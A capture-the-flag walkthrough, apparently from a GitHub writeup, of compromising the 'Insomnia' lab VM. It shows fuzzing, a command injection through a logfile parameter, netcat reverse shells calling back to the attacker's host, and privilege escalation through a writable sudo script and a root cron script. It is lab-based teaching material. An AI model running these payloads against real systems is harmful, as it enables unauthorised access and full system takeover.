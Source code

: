 Walkthrough for Insomnia virtual Machine

Starting the attack I had to identify the virtual machine IP addr. I did this by running rubicon which is a script I programmed. The nmap scrip that it runs is "nmap -sn 192.168.0.0/24". This scans the range of IP's in that range to list all IP's on my network. To recreate this on your own network run ifconfig and if it returns 192.168.1.XXX then use 192.168.1.0/24 as your range or adapt for your IP addr. As you can see the NMAP scan returned the information below and I determined that
the target IP addr is 192.168.56.105

Script: 
```
nmap -sN 192.168.56.0/24
```
![Screenshot From 2025-06-24 11-29-52](https://github.com/user-attachments/assets/617fb1d2-75cf-4fb8-9def-e43aa674d35d)


After identifying the IP addr, I noticed port 8080 is open on the device. I then opened my browser and went to the address.

I was greeted with a login prompt. I left it the defualt username and hit enter,

Upon hitting enter I was greeted with a chat room. i then typed test and hit enter. The chat appeared in the chat window.

Address
```
192.168.56.105:8080
```

![Screenshot From 2025-06-24 11-35-31](https://github.com/user-attachments/assets/5deadb84-383b-4721-afec-a667b5fd6135)

![Screenshot From 2025-06-24 11-35-44](https://github.com/user-attachments/assets/b4734e75-1311-4069-8af5-8c109cf48258)


I inspected the page source and found nothing suspicious so I decided to ffuf scan the web address.

Script:
```
ffuf -c -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -e .html,.php,.txt -u http://192.168.56.105:8080/FUZZ -of html -o dir.html -fs 2899
```

The scan revealed three pages to follow:
- administration.php
- chat.txt
- process.php

![Screenshot From 2025-06-24 11-38-25](https://github.com/user-attachments/assets/70cf8c22-d818-4a07-a6d5-3a2264a89148)

I entered chat.txt and noticed it was just a log of all the chats as a plain text file

![Screenshot From 2025-06-24 11-39-24](https://github.com/user-attachments/assets/ec94f1a8-6132-48a9-ba60-c61a3cf17012)

I then decided to go to administration.php and was greeted with a message stating access is denied and the actions had been logged.

![Screenshot From 2025-06-24 11-40-20](https://github.com/user-attachments/assets/a1a82a10-e0f9-46c7-b7a3-dc6d0a8308bd)

The "view :" seemed suspicious to me as it seemed like it was expecting something, maybe a file or something similar to state what the user is/isn't allowed to view. going back to the chat screen showed something was supposed to be posted, but it was empty.

![Screenshot From 2025-06-24 11-44-10](https://github.com/user-attachments/assets/f9a498b9-0348-4e0c-8428-4ea8ca44de23)

This seemed weird so I decided to run another ffuf scan on the administration.php address and it showed a file named "logfile".

Script:
```
ffuf -c -w /usr/share/seclists/Discovery/Web-Content/common.txt -u 'http://192.168.56.105:8080/administration.php?FUZZ=anything' -of html -o admin-get.html -fs 65
```

![Screenshot From 2025-06-24 11-42-14](https://github.com/user-attachments/assets/27a7a67b-f37f-47e0-8feb-25538e627ecb)

I decided to test for Local File Inclusion (LFI) by running ?logfile=chat.txt. that revealed a plain text view of the chat.txt file. 

![Screenshot From 2025-06-24 11-45-08](https://github.com/user-attachments/assets/482705ac-864b-48f4-8604-56fcc1a00ff2)

This allows us to use this chat file to display information about the system via a ";". I decided to try and view which user we were under on the website.

Address/Script:
```
?logfile=chat.txt;whoami
```

This revealed the user we are under within the webpage and confirms we can execute commands
![Screenshot From 2025-06-24 11-50-51](https://github.com/user-attachments/assets/271ff49b-6552-48fd-bd7a-f7fb802f8d50)

![Screenshot From 2025-06-24 11-51-43](https://github.com/user-attachments/assets/8806f46d-7f6f-4f9d-936c-becafe3500e1)

I decided to try and get a reverse shell on the machine using netcat (nc). Before we can execute nc we have to rememeber that we are "the machine", not technically a user on the device, so running all non-native commands, we have to find then out first. If we are going to use nc, we have to find out which nc to use.

Address/Script:
```
?logfile=chat.txt;which nc
```

![Screenshot From 2025-06-24 11-54-27](https://github.com/user-attachments/assets/368d4afd-07c1-4dfd-822b-5a390d824b2d)

This reveled nc was located at /usr/bin/nc meaning we can run it. I opened a listener on my local machine and invoked a remote connection on the website. and IT WORKED!!

Local Machine Script:
```
nc -lvnp 9000
```

Address/Script:
```
?logfile=;nc -e /bin/bash 192.168.56.1 9000
```

![Screenshot From 2025-06-24 12-06-00](https://github.com/user-attachments/assets/a88773cd-b346-4ef3-91b3-74b667fd5ccc)

![Screenshot From 2025-06-24 12-06-13](https://github.com/user-attachments/assets/276438d8-a555-49e3-9bd0-9e0b0f14ff64)

Now we have to verify who we are by running whoami in the remote shell.

Script:
```
whoami
```

That showed that we are infact www-data. Lets run a "sudo -l" to see what kind of sudo access we have.

Script:
```
sudo -l
```

This revealed that we can run a single file as another user named julia as sudo.

![Screenshot From 2025-06-24 12-08-11](https://github.com/user-attachments/assets/465e74c4-bce1-4895-b660-b8e16a7c0dc2)

Lets see what kind of access is on that file, who can do what and who owns it. I did this by running "ls -alps"

Script:
```
ls -alps
```

This revealed that other users other than root can write to it, so I added a binary bash at the end of the file which will execute when we run it. This will give us access to a shell under the user we execute the start.sh file as.

![Screenshot From 2025-06-24 12-11-00](https://github.com/user-attachments/assets/92efb56d-6b3f-4a93-b48f-0b8fde324492)

![Screenshot From 2025-06-24 12-11-51](https://github.com/user-attachments/assets/91a3272f-fbcd-4fe5-8aa5-61cf0b74a5c6)

I then executed the file as julia.

Script:
```
sudo -u julia bash /var/www/html/start.sh
```

And we were now able to execute commands as julia.

![Screenshot From 2025-06-24 12-12-49](https://github.com/user-attachments/assets/df85e883-e5b6-41b3-bda9-f99e13e3c510)

Now we have broke out of the www-data account we need to grab the user flag. lets get to the users home directory via a simple "cd" and see if the flag is there.

Script:
```
cd
ls -alps
```

![Screenshot From 2025-06-24 12-15-13](https://github.com/user-attachments/assets/1983c098-d21e-42d6-a04b-2b81e31d9b27)

We see a file called user.txt, catting it out gave us our first flag.

Script:
```
cat user.txt
```

![Screenshot From 2025-06-24 12-15-59](https://github.com/user-attachments/assets/b16b9139-080f-42e8-9168-02825df8f932)

Now we need to work on the root flag. Understanding the linux system and having done many machines, I always check the cron jobs first to see if there is any privlage escalation possible. This is always a good place to start as all cronjobs run as root on normal system. Lets dig into it.

Script:
```
cat /etc/crontab
```

![Screenshot From 2025-06-24 12-18-49](https://github.com/user-attachments/assets/8ed0ee43-c99b-42d3-9e49-fc9d619ec440)

this revealed a custom crontab added that ran a file called check.sh. Lets see the contents of that file. That revealed it was just running a loop every so often to ensure a service was running.

Script:
```
cat /var/cron/check.sh
```

![Screenshot From 2025-06-24 12-20-24](https://github.com/user-attachments/assets/9cce93a0-4f91-436d-b59d-036d44623044)

I decided to try and get it to invoke a reverse shell. I opened a listener on another terminal tab and added a reverse shell one-liner to the end of the file.

New Terminal Tab Script:
```
nc -lvnp 9001
```

Current Reverse Shell Script:
```
echo 'nc -e /bin/bash 192.168.56.1 9001' >> /var/cron/check.sh
```

![Screenshot From 2025-06-24 12-24-19](https://github.com/user-attachments/assets/c3c7de06-1905-4695-8935-ed266f4b177e)

After waiting a bit we received the connection. running a whoami verified we are root. Lets get this last flag.

![Screenshot From 2025-06-24 12-25-23](https://github.com/user-attachments/assets/e04a2e42-d9db-421c-a6aa-3ed11ae89ef1)

Obtaining the last flag was easy by running a cd and catting out the root.txt file

Script:
```
cd
ls -al
cat root.txt
```

![Screenshot From 2025-06-24 12-26-26](https://github.com/user-attachments/assets/e4628262-92ee-4cd3-8c6c-07369792185a)

With that, we've completed the machine. Thank you for reading. If you need clarification on anything, please feel free to ask OR go to my YouTube channel to watch the live walk-through.

